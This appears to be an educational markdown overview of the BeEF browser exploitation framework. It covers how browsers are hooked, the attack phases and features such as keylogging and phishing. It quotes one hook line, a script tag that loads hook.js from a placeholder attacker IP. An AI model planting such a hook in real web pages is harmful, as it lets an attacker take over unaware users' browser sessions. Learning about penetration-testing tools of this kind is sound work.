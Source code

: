 # BeEF Framework
## Introduction
According to [1][1] around 45% of Web users are not updating to the latest versions of their browsers with the up-to-date security measures, which empowers various tools to exploit their browsers' vulnerabilities. BeEF which is the short term of Browser Exploitation Framework, initiated in 2006 by Wade Alcorn is an open-source hacking and penetration testing tool, mainly to perform web browser attacks and exploit vulnerabilities using a capable and simple user interface [2][2]. 
## What Does BeEF Do?
BeEF evades network security measures and anti-virus applications in the host system by exploiting vulnerabilities in web browsers [3][3]. It focuses on taking advantage of a web browser’s vulnerabilities to hijack and take control of the target. By “hooking” one or many number of browsers, the attacker starts launching various type of commands that attacks the browser and further attacks the system [3][3]. In order to perform an attack, the attacker generates a customized URL that includes a JavaScript hook and forwards it to the targeted user using emails, social network links and many other possible ways to open it [4]. 
```javascript
<script src="http://{ATTACKER’S IP}:3000/hook.js"></script>
```
Once an unaware user opens the received URL, the browser is hooked without noticing any unusual activity while the attacker accesses the user’s session. Hence, the attacker will have access to the targeted browser and will be able to launch MITM attacks, Social Engineering attacks, Phishing, Cookie Hijacking, Webcam Enabling, Information Gathering, and many other commands that may further attack the host system.
## How Does It Work?
When the attacker starts BeEF, the User Interface and Communication Server are started.

![alt text](https://github.com/yazan828/Test/blob/main/BeEFUI.PNG "BeEF User Interface")

The method BeEF follows to hook web browsers consists of three phases Initiating, Retaining, and Attacking. During initiating, the user opens the received URL and the browser executes the hook that contains instructions to initiate a communication channel between the hooked browser and the attacker. In the retaining phase, an active communication channel is established to start the attacking phase. Using Communication Servers, the attacker is able to communicate with the hooked browsers via HTTP. Lastly, after hooking the browser and establishing an active channel for communication, the attacker can start delivering JavaScript payloads and sending various commands through the User Interface. BeEF offers a variety set of features such as [5][5],[6][6]: 
* Key logging
* Using hooked browser as proxy
* Many social engineering techniques
* Integration with Metasploit Framework 
* Phishing attacks

![alt text](https://github.com/yazan828/Test/blob/main/Command.PNG "Various BeEF Commands")

![alt text](https://github.com/yazan828/Test/blob/main/Diagram.png "BeEF Attack Scenario [5]")

The figure above demonstrates an overview of a client attack using BeEF by injecting the script into the hook and forwarding it to the target. 
## Who Uses BeEF & Why Is It Useful?
The primary purpose of BeEF is to allow qualified penetration testers to evaluate the security measures of web browsers and examine exploitability by simulating the attacks. However, BeEF is also used by hackers who are either targeting specific victims or spreading hooks through the network to gather sensitive information without consent. Plus, BeEF is continuously being used for educational purposes due to its simplicity and strong capability [3][3]. 
## Demonstration


[1]: https://writingbros.com/essay-examples/an-in-depth-look-at-browser-exploitation-using-beef-framework/
[2]: https://github.com/beefproject/beef/wiki#overview
[3]: https://www.researchgate.net/publication/322398374_Web_Browser_Attack_Using_BeEF_Framework
[4]: https://www.secureideas.com/blog/2013/06/getting-started-with-beef-browser.html#:~:text=BeEF%2C%20the%20Browser%20Exploitation%20Framework,environment%2C%20bypassing%20the%20hardened%20perimeter.
[5]: https://ro.ecu.edu.au/cgi/viewcontent.cgi?article=1131&context=adf
[6]: https://github.com/beefproject/beef/wiki/How-BeEF-Works
